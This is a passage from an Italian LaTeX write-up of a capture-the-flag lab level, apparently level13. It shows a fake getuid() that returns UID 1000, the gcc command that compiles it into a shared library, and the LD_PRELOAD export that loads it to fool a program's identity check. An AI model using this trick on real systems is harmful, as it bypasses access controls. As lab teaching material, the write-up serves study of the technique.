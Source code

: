 \begin{figure}[hbpt!]
    \centering
    \includegraphics[width=0.8 \textwidth]{./Images/cap5/5.11.png}
\end{figure}
\FloatBarrier

Il file \texttt{getuid.c} contiene un'implementazione molto semplice della funzione \texttt{getuid()}:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\textbf{nomefile}
\begin{verbatim}
#include <unistd.h>
#include <sys/types.h>

uid_t getuid(void) {
   return 1000;
}
\end{verbatim}
\end{mdframed}
Creiamo questo file nella home di \texttt{level13}. Per generare la libreria condivisa, usiamo \texttt{gcc} con le opzioni seguenti:
\begin{itemize}
    \item \texttt{-shared} genera un oggetto linkabile a tempo di esecuzione e condivisibile con altri oggetti.
    \item \texttt{-fPIC} genera codice indipendente dalla posizione (Position Indipendent Code), rilocabile ad un indirizzo di memoria arbitrario.
\end{itemize}
\begin{center}
    \texttt{gcc -shared -fPIC -o getuid.so getuid.c}
\end{center}
Per carica anticipatamente la libreria condivisa \texttt{getuid.so} modifichiamo la variabile \texttt{LD\_PRELOAD}:
\begin{center}
    \texttt{export LD\_PRELOAD=./getuid.so}
\end{center}
Aggiorniamo l'albero di attacco:

\begin{figure}[hbpt!]
    \centering
    \includegraphics[width=0.8 \textwidth]{./Images/cap5/5.12.png}
\end{figure}
\FloatBarrier

